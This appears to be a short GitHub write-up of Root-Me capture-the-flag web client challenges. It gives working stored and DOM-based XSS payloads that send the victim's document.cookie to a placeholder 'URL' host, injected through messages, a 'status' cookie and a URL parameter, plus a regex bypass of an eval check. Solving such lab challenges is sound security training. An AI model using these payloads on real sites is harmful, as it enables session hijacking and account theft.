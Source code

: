# Rootme-App-Client
App Client Challenges Summary

### XSS- Stored 1
Post a message with content is the following:
`<script>window.location.href="URL?c="+document.cookie</script>
`
### XSS - Stored 2
Post a random message, then Ctrl + U to view source code. 

There are 2 style definitions : `invite` & `admin`.

Besides, when open cookies manage, we see a value of `status` is `invite`. 

Change this value into `admin` and try posting a message, this change will affect to tag `i` after message title.

So we're going to exploit this.

Change `status` cookie into `"><script>window.location.href="URL?c="+document.cookie</script>` and post a message

### XSS DOM Based - Introduction

Submit a random number, we will see url has a param `number`. 

Ctrl + U to view source code. `number` variable get value from URL param.

Exploit this.

Submit number `'; window.location.href="URL?c="+document.cookie//`. 

This will break `''` of `number` variable, add `fetch` into script.

Submit URL in `Contact` page with param `RootmeURL?number='; window.location.href="URL?c="+document.cookie//`

### XSS DOM Based - Eval
This web use regex  /^\d+[\+|\-|\*|\/]\d+/ to check input. We can bypass by using the following input:

``1*24+";window.location.href=`URL?c=`+document.cookie;//"``
